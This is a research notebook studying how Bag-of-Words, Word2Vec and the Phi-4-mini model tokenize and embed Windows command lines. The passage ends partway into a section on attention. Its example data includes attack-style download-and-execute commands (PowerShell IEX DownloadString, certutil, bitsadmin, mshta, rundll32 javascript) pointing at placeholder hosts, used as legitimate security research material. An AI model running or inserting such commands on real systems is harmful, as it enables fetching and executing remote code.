# Understanding How LLMs Process Security Telemetry: companion notebook

This notebook reproduces the measurements in the blog post
[Understanding How LLMs Process Security Telemetry](https://henryparks.com/research/how-llms-read-security-telemetry/).

[![Open in Colab](https://colab.research.google.com/assets/colab-badge.svg)](https://colab.research.google.com/github/henry-parks/research-notebooks/blob/how-llms-read-security-telemetry-v1.0/posts/how-llms-read-security-telemetry/how-llms-read-security-telemetry.ipynb)

**How it is organized**

| Notebook section | Blog post section | Figures | Needs a GPU? |
|---|---|---|---|
| Part 1 (sections 1-3): Bag-of-Words vs. Word2Vec | Background | n/a | No |
| 4. A Tokenizer Is Not a Parser | same | Figure 1 | No |
| 5. Token IDs Are Addresses, Not Meaning | same | Figures 2, 3 | No |
| 6. Embeddings Place Related Tokens Close Together | same | Figure 4 | No |
| 7. Attention Lets Each Token Draw on the Ones Before It | same | Figure 5 | Yes |
| 8. Context Changes a Token's Vector, but Only Looking Backward | same | Figures 6, 7 | Yes |
| 9. Two Days of Telemetry Do Not Fit in Any Context Window | same | Figure 8 | No |

Only sections 7 and 8 load the full model (about 8 GB of weights, which fits on one 16 GB GPU).
Everything else uses the tokenizer or the embedding table on its own and runs on a laptop: it downloads one
4.9 GB weights file and needs about 3 GB of memory. Without a GPU, run sections 1-6 and 9 and skip 7 and 8.
The styled figures on the blog are drawn from the same numbers this notebook prints.

Run the cells in order, top to bottom (Shift+Enter runs one cell and moves to the next). The code
comments explain the Python as well as the idea, so you do not need to know PyTorch to follow along.

Tested with Python 3.11, transformers 4.53.3, torch 2.14 and gensim 4.4.0 (pinned in `requirements.txt`).

In [1]:
# Running in Google Colab? Colab opens only this notebook file, so this cell fetches the rest of the
# post's folder (its data and requirements) and installs them. Anywhere else it does nothing.
import os
import subprocess
import sys

POST = "how-llms-read-security-telemetry"
POST_REF = "how-llms-read-security-telemetry-v1.0"   # the published version of this post

if "google.colab" in sys.modules:
    if not os.path.exists("/content/research-notebooks"):
        subprocess.run(["git", "clone", "--depth", "1", "--branch", POST_REF, "--filter=blob:none", "--sparse",
                        "https://github.com/henry-parks/research-notebooks.git", "/content/research-notebooks"], check=True)
        subprocess.run(["git", "-C", "/content/research-notebooks", "sparse-checkout", "set", f"posts/{POST}"], check=True)
    os.chdir(f"/content/research-notebooks/posts/{POST}")
    subprocess.run([sys.executable, "-m", "pip", "install", "-q", "-r", "requirements.txt"], check=True)
    print("Ready. If Colab asks you to restart the session, do it, then run the notebook from this cell again.")

# Part 1 · Background: Bag-of-Words vs. Word2Vec

Part 1 answers one practical question:

> **How does the *representation* of a command line change the similarity we measure?**

By *representation* we mean how a command line is turned into numbers so that software can
compare two commands. We hold three things constant: the **six example commands**, the **tokenizer** (the step that splits each command into *tokens*, pieces like `powershell` or `http`), and the **cosine-similarity** score. Only the representation changes:

```text
Bag-of-Words -> token-count vector -> cosine similarity
Word2Vec     -> learned word vectors -> mean pooling -> cosine similarity
```

Mean pooling is explained in section 2. A **vector** here is just a list of numbers standing in for a command, and **cosine
similarity** measures how alike two vectors are, from **0.0** (nothing in common) to
**1.0** (as alike as possible). Cosine can go below zero in general, but every score in this
notebook lands between 0 and 1.


In [2]:
# In Google Colab, uncomment to install what this notebook needs:
# !pip install -q gensim scikit-learn pandas numpy matplotlib transformers==4.53.3 safetensors huggingface_hub accelerate evtx

import re
import numpy as np
import pandas as pd

from IPython.display import display
from gensim.models import Word2Vec
from sklearn.feature_extraction.text import CountVectorizer
from sklearn.metrics.pairwise import cosine_similarity


# A small corpus of Windows command lines with overlapping behaviors.
cmd_corpus = [
    r'powershell.exe -c "IEX (New-Object Net.WebClient).DownloadString(\'http://x/a.ps1\')"',
    r'certutil.exe -urlcache -split -f http://x/setup.exe C:\Windows\Temp\setup.exe',
    r'bitsadmin.exe /transfer j /download http://x/setup.exe C:\Windows\Temp\setup.exe',
    r'mshta.exe http://x/a.hta',
    r'rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ""http://x/a.hta"""',
    r"Invoke-WebRequest -Uri https://example.com/file.zip "
    r"-OutFile 'C:\Users\researcher\Downloads\file.zip'",
]

labels = [
    "PowerShell",
    "Certutil",
    "Bitsadmin",
    "Mshta",
    "Rundll32",
    "Invoke-WebRequest",
]


def normalize_tokens(cmd):
    """Lowercase a command and split it into simple alphanumeric tokens."""
    return re.findall(r"[A-Za-z0-9]+", cmd.lower())


tokenized_cmd_corpus = [normalize_tokens(cmd) for cmd in cmd_corpus]

display(pd.DataFrame({
    "command": labels,
    "tokens": tokenized_cmd_corpus,
}))


,command,tokens
0,PowerShell,"[powershell, exe, c, iex, new, object, net, we..."
1,Certutil,"[certutil, exe, urlcache, split, f, http, x, s..."
2,Bitsadmin,"[bitsadmin, exe, transfer, j, download, http, ..."
3,Mshta,"[mshta, exe, http, x, a, hta]"
4,Rundll32,"[rundll32, exe, javascript, mshtml, runhtmlapp..."
5,Invoke-WebRequest,"[invoke, webrequest, uri, https, example, com,..."


## 1. Bag-of-Words

Bag-of-Words (BoW) gives every token in the **vocabulary** (the set of unique tokens seen)
its own slot in the vector (one *dimension* = one column = one number), and records how many times that token appears in a command.
Think of it as a spreadsheet: one row per command, one column per token in the vocabulary.
Our six commands produce 42 columns.

The result is **sparse**: each command uses only a few of the many possible tokens, so its vector is mostly zeros. It is also **not learned**. The `certutil` slot simply means `certutil`, and BoW never discovers that `certutil` and `bitsadmin` perform *semantically* (meaning-wise)
related behaviors.

Because it only counts tokens, **BoW needs no training corpus**. The vocabulary is just whatever tokens happen to be present. That is very different from Word2Vec, which has to
*learn* its vectors from a large corpus. We come back to this contrast in section 3.


In [3]:
# Use our own tokenizer (and switch off scikit-learn's own splitting and lowercasing)
# so Bag-of-Words and Word2Vec see exactly the same tokens.
vectorizer = CountVectorizer(
    tokenizer=normalize_tokens,
    token_pattern=None,
    lowercase=False,
)

bow_vectors = vectorizer.fit_transform(cmd_corpus)   # build the vocabulary, then count each token in each command
vocabulary = vectorizer.get_feature_names_out()

print(f"BoW shape: {bow_vectors.shape}")   # (rows, columns) = (commands, vocabulary tokens)
print(f"Vocabulary size: {len(vocabulary)}")

# Look at one command's row to see what Bag-of-Words actually stores.
# Each "feature" here is one vocabulary token (one column of the vector).
certutil_idx = labels.index("Certutil")
certutil_bow = pd.Series(
    bow_vectors.toarray()[certutil_idx],   # toarray() expands the stored counts, zeros included, so we can take one row
    index=vocabulary,
)

print("\nNon-zero Bag-of-Words features for Certutil:")
# Keep only the tokens that appear in this command.
display(
    certutil_bow[certutil_bow > 0]
    .rename("count")
    .to_frame()
)

bow_similarity = cosine_similarity(bow_vectors)   # every command against every other: a 6 x 6 table

bow_similarity_df = pd.DataFrame(
    bow_similarity,
    index=labels,
    columns=labels,
)

print("Bag-of-Words cosine similarity:")
display(bow_similarity_df.round(3))


BoW shape: (6, 42)
Vocabulary size: 42

Non-zero Bag-of-Words features for Certutil:


,count
c,1
certutil,1
exe,3
f,1
http,1
setup,2
split,1
temp,1
urlcache,1
windows,1


Bag-of-Words cosine similarity:


,PowerShell,Certutil,Bitsadmin,Mshta,Rundll32,Invoke-WebRequest
PowerShell,1.000,0.355,0.355,0.453,0.370,0.064
Certutil,0.355,1.000,0.818,0.435,0.355,0.049
Bitsadmin,0.355,0.818,1.000,0.435,0.355,0.049
Mshta,0.453,0.435,0.435,1.000,0.680,0.000
Rundll32,0.370,0.355,0.355,0.680,1.000,0.000
Invoke-WebRequest,0.064,0.049,0.049,0.000,0.000,1.000


Look at why Certutil and Bitsadmin score 0.818. They share `exe`, `http`, `x`, `setup`, `c`, `windows`
and `temp`: the URL and the drop path, not the fact that both download a file. Give one of them a
different URL and path and most of that overlap disappears. Invoke-WebRequest also downloads a file,
yet it scores 0.06 or less against everything, because it shares almost no literal tokens with the
others. (`exe` counts 3 for Certutil because `certutil.exe` and `setup.exe`, twice, all produce it.)

For an analyst, Bag-of-Words behaves like a keyword or string match: useful, and fooled by renaming.

## 2. Word2Vec

Word2Vec learns an **embedding** for each word: a vector that is *learned* from data so that similar words get similar vectors. Unlike BoW's raw counts, an embedding is **dense**
(mostly non-zero). Word2Vec builds these from **co-occurrence**: which tokens tend to appear
near each other.

Unlike BoW, no single number in the embedding stands for a named token. Meaning comes from *where* the vector sits. Picture each word as a point in space, with words used in similar
ways placed closer together. Our space has 100 directions instead of two, so you cannot draw
it, but "close" still means the same thing.

Word2Vec gives us one vector per **word**, but we want one vector per **command**, so we
average the word vectors in each command. That averaging step is called **mean pooling**.

> Mean pooling is our own step. Word2Vec itself stops at the word vectors.


To learn useful relationships, Word2Vec needs more than our six commands, so we train it on **~1,200 real Windows command lines** harvested from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) (MIT-licensed). We still *measure* similarity on the same six commands, so the comparison with Bag-of-Words stays fair.


In [4]:
# Training corpus: real Windows command lines harvested from Atomic Red Team ("art" for short).
# The file holds real attack command lines, so it ships gzip-compressed: antivirus is less likely to
# quarantine it, and pandas reads the .gz directly. A plain .csv works too.
from pathlib import Path

# Look in data/ first, then ../data/, so this works from the post folder or from notebooks/.
candidates = [Path(d) / name for d in ("data", "../data") for name in ("atomic_commands.csv.gz", "atomic_commands.csv")]
DATA_FILE = next((path for path in candidates if path.exists()), None)
if DATA_FILE is None:
    raise FileNotFoundError("data/atomic_commands.csv.gz not found. See data/README.md to regenerate it.")

art = pd.read_csv(DATA_FILE)
training_corpus = [normalize_tokens(cmd) for cmd in art["command"]]   # same tokenizer as the six examples

print(f"Training corpus: {len(training_corpus)} commands, "
      f"{art['technique'].nunique()} MITRE techniques")   # nunique() counts the distinct technique IDs

Training corpus: 1214 commands, 270 MITRE techniques


In [5]:
# Train Word2Vec on the ~1,200 Atomic Red Team commands (each setting explained inline).
w2v_model = Word2Vec(
    sentences=training_corpus,
    vector_size=100,   # numbers per word vector (the embedding's length)
    window=5,          # how many neighboring tokens count as a word's "context"
    min_count=5,       # ignore tokens seen fewer than 5 times (drops rare noise)
    sg=1,              # skip-gram: learn each word's vector by predicting its neighbors (does well on small data)
    workers=1,         # single-threaded -> reproducible results
    seed=42,
    epochs=40,         # how many passes over the corpus during training
)

print(f"Learned embeddings for {len(w2v_model.wv)} tokens.\n")
# .wv holds the learned word vectors; [:10] means the first 10 numbers.
# No single number means anything on its own. Only comparisons between vectors do.
print("First 10 dimensions of the learned 'download' embedding:")
print(w2v_model.wv["download"][:10])

print("\nFull embedding shape:")
print(w2v_model.wv["download"].shape)


def command_vector(tokens, model):
    """
    Create one command-level vector by averaging the Word2Vec
    embeddings for all tokens in the command.
    """
    # Skip tokens the model has no vector for (seen fewer than 5 times in training).
    word_vectors = [
        model.wv[token]
        for token in tokens
        if token in model.wv
    ]

    if not word_vectors:
        return np.zeros(model.vector_size, dtype=np.float32)

    # Average the word vectors number by number: the result is one 100-number vector.
    return np.mean(word_vectors, axis=0)


# One vector per command, stacked into a 6 x 100 table.
w2v_vectors = np.array([
    command_vector(tokens, w2v_model)
    for tokens in tokenized_cmd_corpus
])

print(f"\nWord2Vec command-matrix shape: {w2v_vectors.shape}")

w2v_similarity = cosine_similarity(w2v_vectors)

w2v_similarity_df = pd.DataFrame(
    w2v_similarity,
    index=labels,
    columns=labels,
)

print("\nWord2Vec cosine similarity:")
display(w2v_similarity_df.round(3))


Learned embeddings for 1020 tokens.

First 10 dimensions of the learned 'download' embedding:
[ 0.4472137   0.588912   -0.46334445  0.12844901  0.333366    0.05378124
  0.46570715  0.00624087  0.21151708  0.00673857]

Full embedding shape:
(100,)

Word2Vec command-matrix shape: (6, 100)

Word2Vec cosine similarity:


,PowerShell,Certutil,Bitsadmin,Mshta,Rundll32,Invoke-WebRequest
PowerShell,1.000,0.680,0.655,0.700,0.657,0.687
Certutil,0.680,1.000,0.954,0.761,0.751,0.635
Bitsadmin,0.655,0.954,1.000,0.781,0.768,0.697
Mshta,0.700,0.761,0.781,1.000,0.970,0.629
Rundll32,0.657,0.751,0.768,0.970,1.000,0.577
Invoke-WebRequest,0.687,0.635,0.697,0.629,0.577,1.000


## 3. Compare the complete similarity results

Here are both results side by side. The six commands, the tokenizer, and the cosine-similarity calculation are unchanged. Only the representation supplied to cosine similarity is different.

**Why is Word2Vec trained on 1,200 commands while Bag-of-Words used only the six?** It comes back to the point from section 1.

- **Bag-of-Words needs no training corpus.** Fitting it only builds a vocabulary and counts tokens. It never learns relationships. Training it on the 1,200 commands just adds vocabulary columns that are *zero* for our six examples. A column where both commands have 0 adds nothing to their overlap or to their lengths, so the cosine score cannot move. BoW gains nothing from more data here.
- **Word2Vec is the opposite.** Its vectors *are* what it learns from co-occurrence, so it is only as good as its training corpus. Trained on the six commands alone with the same settings, only three tokens (`exe`, `http` and `x`) appear often enough to get a vector, so most pairs score around 0.9 and the scores say almost nothing. Trained on 1,200 commands, it starts to place related tooling together, putting `certutil` near `bitsadmin`.

That difference is real, not a flaw in the setup.

One caution before you compare the two tables: Word2Vec scores run higher across the board (nothing falls below 0.57), so compare rankings, not raw numbers. Invoke-WebRequest is the clearest case. It sits near 0 against everything in Bag-of-Words, and at 0.58 to 0.70 in Word2Vec.

In [6]:
# Put the two 6 x 6 tables side by side (axis=1 means as columns, not rows).
side_by_side = pd.concat(
    {
        "Bag-of-Words": bow_similarity_df,
        "Word2Vec": w2v_similarity_df,
    },
    axis=1,
)

display(side_by_side.round(3))

# The full table is wide, so here are the three pairs worth looking at.
pairs_of_interest = [("Certutil", "Bitsadmin"), ("Mshta", "Rundll32"), ("PowerShell", "Invoke-WebRequest")]
display(pd.DataFrame([
    {"pair": f"{a} / {b}",
     "Bag-of-Words": round(bow_similarity_df.loc[a, b], 3),   # .loc[row, column] picks one cell
     "Word2Vec": round(w2v_similarity_df.loc[a, b], 3)}
    for a, b in pairs_of_interest
]))

Bag-of-Words                                     \
                    PowerShell Certutil Bitsadmin  Mshta Rundll32   
PowerShell               1.000    0.355     0.355  0.453    0.370   
Certutil                 0.355    1.000     0.818  0.435    0.355   
Bitsadmin                0.355    0.818     1.000  0.435    0.355   
Mshta                    0.453    0.435     0.435  1.000    0.680   
Rundll32                 0.370    0.355     0.355  0.680    1.000   
Invoke-WebRequest        0.064    0.049     0.049  0.000    0.000   

                                      Word2Vec                            \
                  Invoke-WebRequest PowerShell Certutil Bitsadmin  Mshta   
PowerShell                    0.064      1.000    0.680     0.655  0.700   
Certutil                      0.049      0.680    1.000     0.954  0.761   
Bitsadmin                     0.049      0.655    0.954     1.000  0.781   
Mshta                         0.000      0.700    0.761     0.781  1.000   
Rundll32                      0.000      0.657    0.751     0.768  0.970   
Invoke-WebRequest             1.000      0.687    0.635     0.697  0.629   

                                              
                  Rundll32 Invoke-WebRequest  
PowerShell           0.657             0.687  
Certutil             0.751             0.635  
Bitsadmin            0.768             0.697  
Mshta                0.970             0.629  
Rundll32             1.000             0.577  
Invoke-WebRequest    0.577             1.000

,pair,Bag-of-Words,Word2Vec
0,Certutil / Bitsadmin,0.818,0.954
1,Mshta / Rundll32,0.680,0.970
2,PowerShell / Invoke-WebRequest,0.064,0.687


## Part 1 takeaway: the representation is the variable

**Bag-of-Words** stores a command as token counts. The vector is mostly zeros, nothing in it is
learned, and two commands only look alike when they share literal tokens. That is why Certutil and
Bitsadmin matched on their shared URL and drop path, and why Invoke-WebRequest, also a download,
matched almost nothing.

**Word2Vec** learns a dense vector for each word from the words around it, so words used in similar
places end up close together. Our command vector is the average of its word vectors. Trained on
1,200 commands, it put Invoke-WebRequest at 0.58 to 0.70 from the others instead of near zero.

Same cosine formula, same six commands. The scores moved because the representation changed.

### A note on this example

Training on ~1,200 Atomic Red Team commands is enough for Word2Vec to learn sensible
relationships (e.g. `certutil` and `bitsadmin` land close together), but it is still tiny. A
production embedding model would be trained on a much larger and more diverse corpus of
command lines, scripts, telemetry, or other security text. The corpus here is offensive-only, so it captures how attacker tooling clusters, not how it differs from benign
activity.

### Where Part 1 runs out

Both methods treat a word the same way every time. Bag-of-Words counts it, and Word2Vec looks
up one fixed vector: `powershell` gets the same numbers whether it is running a signed backup
script or a hidden downloader. To do better, a model has to read the *whole* command and let the
surrounding tokens change each token's representation. That is what a Transformer, the design
inside every modern LLM, does. Part 2 opens up a real LLM and watches it happen.

# Part 2 · Inside a real LLM

Part 1 used small, simple representations. Now we look at what a production language model does
with a command line, using Microsoft's **Phi-4-mini-instruct**.

Phi-4-mini starts the same way Word2Vec does: a lookup table with one learned vector per token.
The differences are the size (3,072 numbers per token instead of 100) and what happens after the
lookup, which is sections 7 and 8.

> **Heads-up on resources:** sections 4-6 and 9 need only the tokenizer and the embedding table
> (one 4.9 GB weights file, about 3 GB of memory) and run on a laptop. Sections 7-8 load the full
> model (about 8 GB) and need a GPU.

## 4. A Tokenizer Is Not a Parser

Before a model can process telemetry, it has to turn text into numbers. The first step is
**tokenization**: split the input into tokens, then map each token to a numerical ID in the
tokenizer's vocabulary.

A tokenizer is not a security parser. It does not know what a command does, and it will not
respect the boundaries you care about.

In [7]:
import json
import warnings

warnings.filterwarnings("ignore", message="IProgress not found")   # hides a harmless progress-bar warning

import torch                                   # PyTorch, the library the model runs on
from huggingface_hub import hf_hub_download    # downloads model files (cached after the first time)
from safetensors import safe_open              # reads one table out of a weights file
from transformers import AutoConfig, AutoTokenizer

MODEL = "microsoft/Phi-4-mini-instruct"
REVISION = "cfbefacb99257ffa30c83adab238a50856ac3083"   # the exact version the post measured; a later model update cannot change the results
tokenizer = AutoTokenizer.from_pretrained(MODEL, revision=REVISION)


def load_embedding_table():
    """Load only the model's embedding table (one row of 3,072 numbers per token ID), not the whole model."""
    # The weights are split across two files. This small index file says which file holds which table.
    with open(hf_hub_download(MODEL, "model.safetensors.index.json", revision=REVISION)) as f:
        weight_files = json.load(f)["weight_map"]
    name = "model.embed_tokens.weight"   # the embedding table's name inside the weights
    with safe_open(hf_hub_download(MODEL, weight_files[name], revision=REVISION), framework="pt") as f:   # pt = PyTorch
        return f.get_tensor(name).float()   # .float() converts the stored 16-bit numbers to standard 32-bit


embedding_table = load_embedding_table()
print("Embedding table:", tuple(embedding_table.shape))   # (rows, numbers per row): one row per vocabulary token

Embedding table: (200064, 3072)


In [8]:
# Triple quotes let the string hold both ' and " without escaping either.
cmd = '''powershell.exe -NoProfile -Command "IEX (New-Object Net.WebClient).DownloadString('https://example.com/payload.ps1')"'''

tokens = tokenizer.tokenize(cmd)   # split the command into the model's tokens

print(f"Command:\n{cmd}\n")
print(f"{len(tokens)} tokens:\n{tokens}")

Command:
powershell.exe -NoProfile -Command "IEX (New-Object Net.WebClient).DownloadString('https://example.com/payload.ps1')"

31 tokens:
['powers', 'hell', '.exe', 'Ġ-', 'No', 'Profile', 'Ġ-', 'Command', 'Ġ"', 'I', 'EX', 'Ġ(', 'New', '-', 'Object', 'ĠNet', '.Web', 'Client', ').', 'Download', 'String', "('", 'https', '://', 'example', '.com', '/p', 'ayload', '.ps', '1', '\')"']


### Reading that output

Two things in that list tend to trip up security folks.

- **`powershell.exe` is not one token.** It is split into `powers`, `hell`, `.exe`. Likewise
  `IEX` becomes `I` + `EX`, and `DownloadString` becomes `Download` + `String`. Think of the
  vocabulary as a compression dictionary: strings the tokenizer saw often in its training data,
  like `Download` or `.exe`, got their own entry, and rarer ones like `powershell` get built from
  pieces. Command syntax plays no part.
- **The `Ġ` character is not in your data.** It is how this tokenizer marks a *leading
  space*. `Ġ-` means "space, then a hyphen".

Compare this with `normalize_tokens` from Part 1, which split on whitespace and punctuation
into whole words. The model learns from whatever pieces its tokenizer hands it, sensible or not.

The same thing happens on other common Windows command lines. Here are the four from Figure 1
in the blog post. Notice how binary names, switches and paths all break into pieces, and how the
base64 payload turns into a long run of short tokens.

In [9]:
figure1_commands = {
    "Encoded PowerShell (harmless payload)": "powershell.exe -EncodedCommand VwByAGkAdABlAC0ASABvAHMAdAAgAGgAZQBsAGwAbwA=",
    "Certutil download": r"certutil.exe -urlcache -split -f https://example.com/a.txt C:\Temp\a.txt",
    "Rundll32, routine": r"rundll32.exe printui.dll,PrintUIEntry /in /n \\fileserver\HP-12",
    "Rundll32, suspicious": r"rundll32.exe C:\Users\Public\update.dll,DllRegisterServer",
}

# " | ".join(pieces) prints the pieces with a bar between them.
for label, command in figure1_commands.items():
    pieces = tokenizer.tokenize(command)
    print(f"{label} ({len(pieces)} tokens)")
    print("  ", " | ".join(pieces), "\n")

Encoded PowerShell (harmless payload) (35 tokens)
   powers | hell | .exe | Ġ- | Encoded | Command | ĠV | w | By | AG | k | Ad | AB | l | AC | 0 | AS | AB | v | AH | M | Ad | A | Ag | AG | g | AZ | Q | Bs | AG | w | Ab | w | A | = 

Certutil download (21 tokens)
   cert | util | .exe | Ġ- | url | cache | Ġ- | split | Ġ- | f | Ġhttps | :// | example | .com | /a | .txt | ĠC | :\ | Temp | \a | .txt 

Rundll32, routine (23 tokens)
   r | und | ll | 32 | .exe | Ġprint | ui | .dll | , | Print | UI | Entry | Ġ/ | in | Ġ/ | n | Ġ\\ | files | erver | \ | HP | - | 12 

Rundll32, suspicious (17 tokens)
   r | und | ll | 32 | .exe | ĠC | :\ | Users | \ | Public | \ | update | .dll | ,D | ll | Register | Server 



## 5. Token IDs Are Addresses, Not Meaning

Each token gets a numerical ID. The ID carries no meaning: it is a row number, and ID 172083 is
not "bigger" or "more suspicious" than ID 40. The model uses it to look up one row of the
**embedding table**, a list of 3,072 numbers learned during training. Phi-4-mini's table has one
such row for each of its 200,064 vocabulary entries.

The code below calls the table a *matrix*, the math name for a table of numbers.
PyTorch calls these blocks of numbers *tensors*. A tensor is a table that can have more than two
dimensions. Read the command's embedding shape, `(1, 31, 3072)`, as: 1 command, 31 tokens, 3,072 numbers per token.

In [10]:
inputs = tokenizer(cmd, return_tensors="pt")   # the token IDs as a PyTorch tensor (pt), ready for the model
token_ids = inputs["input_ids"][0]             # [0] = the first (and only) command in the batch

# A list of IDs picks those rows from the table, in order.
# unsqueeze(0) adds the "1 command" dimension, giving the (1, 31, 3072) shape.
embeddings = embedding_table[token_ids].unsqueeze(0)

print(f"Token IDs:\n{token_ids.tolist()}\n")
print(f"Embedding matrix shape: {tuple(embedding_table.shape)}")
print(f"Command embedding shape: {tuple(embeddings.shape)}")

Token IDs:
[172083, 10844, 39494, 533, 3160, 9120, 533, 5266, 392, 40, 3922, 350, 3443, 12, 1752, 9352, 12959, 3510, 741, 14282, 916, 706, 4172, 1684, 18582, 1136, 8138, 11341, 76695, 16, 112048]

Embedding matrix shape: (200064, 3072)
Command embedding shape: (1, 31, 3072)


The table below shows each token, its ID and the first five of its 3,072 numbers (Figures 2 and 3 in the post).

In [11]:
token_df = pd.DataFrame({
    "Token": tokens,
    "Token ID": token_ids.tolist(),
    # For each token: the first 5 of its numbers, rounded. float() turns a tensor value into a plain number.
    "Embedding (first 5 of 3,072 numbers)": [
        [round(float(x), 3) for x in vector[:5]]
        for vector in embeddings[0]
    ],
})

display(token_df)

,Token,Token ID,"Embedding (first 5 of 3,072 numbers)"
0,powers,172083,"[-0.062, -0.1, 0.14, -0.118, -0.184]"
1,hell,10844,"[0.113, -0.202, 0.06, -0.189, -0.222]"
2,.exe,39494,"[-0.093, 0.118, -0.015, -0.062, -0.075]"
3,Ġ-,533,"[-0.051, 0.151, -0.026, 0.001, -0.139]"
4,No,3160,"[0.104, 0.004, 0.037, -0.305, -0.254]"
5,Profile,9120,"[-0.115, -0.072, -0.137, -0.206, -0.354]"
6,Ġ-,533,"[-0.051, 0.151, -0.026, 0.001, -0.139]"
7,Command,5266,"[-0.101, -0.046, -0.042, -0.2, -0.216]"
8,"Ġ""",392,"[-0.1, 0.1, 0.165, 0.328, -0.188]"
9,I,40,"[0.144, -0.087, 0.062, -0.377, -0.185]"


In [12]:
# The token "Ġ-" (a space followed by a hyphen) appears twice in the command.
# Same token -> same ID -> exactly the same row of numbers.
positions = [i for i, t in enumerate(tokens) if t == "Ġ-"]
print("Positions of 'Ġ-':", positions)
print("IDs:", [token_ids[i].item() for i in positions])   # .item() turns a one-number tensor into a plain number
# torch.equal is True only if all 3,072 numbers match.
print("Identical vectors:", torch.equal(embeddings[0][positions[0]], embeddings[0][positions[1]]))

Positions of 'Ġ-': [3, 6]
IDs: [533, 533]
Identical vectors: True


## 6. Embeddings Place Related Tokens Close Together

During training, tokens used in similar ways end up with vectors that point in similar directions.
Picture each vector as an arrow. **Cosine similarity** compares only where two arrows point and
ignores how long they are: 1.0 means the same direction, 0 means unrelated. A SOC comparison: two
hosts with the same mix of processes look alike even if one is ten times busier.

The post checks four words. Download, Retrieve and Fetch (all about getting data) should score
higher with each other than with Registry. For scale, we also score 1,000 random pairs of tokens.

In [13]:
import itertools
import random


def word_vector(word):
    """The embedding of a word as it appears mid-command (with a leading space).
    If the word splits into several tokens, average their vectors (mean pooling again, as in Part 1)."""
    ids = tokenizer.encode(" " + word, add_special_tokens=False)   # add_special_tokens=False: no start-of-text marker
    return embedding_table[ids].mean(dim=0)   # dim=0: average down the rows, leaving one 3,072-number vector


def cos(a, b):
    """Cosine similarity: 1.0 means the two vectors point the same way, 0 means unrelated."""
    return torch.nn.functional.cosine_similarity(a, b, dim=0).item()   # .item() returns a plain number


words = ["Download", "Retrieve", "Fetch", "Registry"]
vectors = {w: word_vector(w) for w in words}       # word -> its vector
for a, b in itertools.combinations(words, 2):      # every pair once: 4 words make 6 pairs
    # :9s pads each word to 9 characters so the columns line up; :.2f prints 2 decimals
    print(f"{a:9s} vs {b:9s}  {cos(vectors[a], vectors[b]):.2f}")

# For scale: 1,000 random pairs of token IDs. seed(0) picks the same "random" pairs on every run.
random.seed(0)
sample = random.sample(range(embedding_table.shape[0]), 2000)   # 2,000 different row numbers (shape[0] = 200,064 rows)
pairs = zip(sample[::2], sample[1::2])             # items 0, 2, 4... paired with items 1, 3, 5...
random_scores = [cos(embedding_table[i], embedding_table[j]) for i, j in pairs]
print(f"\nAverage of 1,000 random token pairs: {sum(random_scores) / len(random_scores):.2f}")

Download  vs Retrieve   0.77
Download  vs Fetch      0.82
Download  vs Registry   0.68
Retrieve  vs Fetch      0.88
Retrieve  vs Registry   0.59
Fetch     vs Registry   0.67

Average of 1,000 random token pairs: 0.16


Read these numbers against each other, not against zero. In this model even two random tokens
average 0.16. What matters is the ranking: Download and Fetch (0.82) beat Download and Registry (0.68), and Retrieve and Fetch
(0.88) are the closest pair.

### Seeing the space (with a caveat)

We cannot draw 3,072 dimensions, so the plot below squeezes them down to two with **PCA**
(principal component analysis). PCA finds the two directions in which these 31 vectors differ
most and places each token along those two. It is like keeping the two most informative columns
of a very wide spreadsheet, except each new column is a blend of the originals.

Treat the plot as a rough sketch. The two axes keep only about half of the variation between
these tokens. These are also still the **static** input embeddings, the vectors from before the
model has read the whole command.



The two axes keep 51% of the variation between these tokens.


In [14]:
from sklearn.decomposition import PCA
import matplotlib.pyplot as plt

# Project the 31 token embeddings from 3,072 dimensions down to 2.
token_vectors = embeddings[0].numpy()   # PyTorch -> numpy, which scikit-learn expects
pca = PCA(n_components=2)
projected = pca.fit_transform(token_vectors)

plt.figure(figsize=(11, 7))
plt.scatter(projected[:, 0], projected[:, 1])   # [:, 0] = every row, column 0 (x); [:, 1] = y
# Label each dot, nudged a few points up and to the right.
for i, token in enumerate(tokens):
    plt.annotate(token, (projected[i, 0], projected[i, 1]), xytext=(5, 5), textcoords="offset points", fontsize=9)
plt.xlabel("Principal component 1")
plt.ylabel("Principal component 2")
plt.title("Phi-4-mini: PowerShell token embeddings (PCA projection)")
plt.tight_layout()
plt.show()

print(f"The two axes keep {pca.explained_variance_ratio_.sum():.0%} of the variation between these tokens.")

The two `Ġ-` tokens sit exactly on top of each other, because their vectors are identical. Expect
related fragments to cluster loosely, and don't read much into exact distances.

## 7. Attention Lets Each Token Draw on the Ones Before It

From here on we need the whole model. After the lookup, the model passes the token vectors through
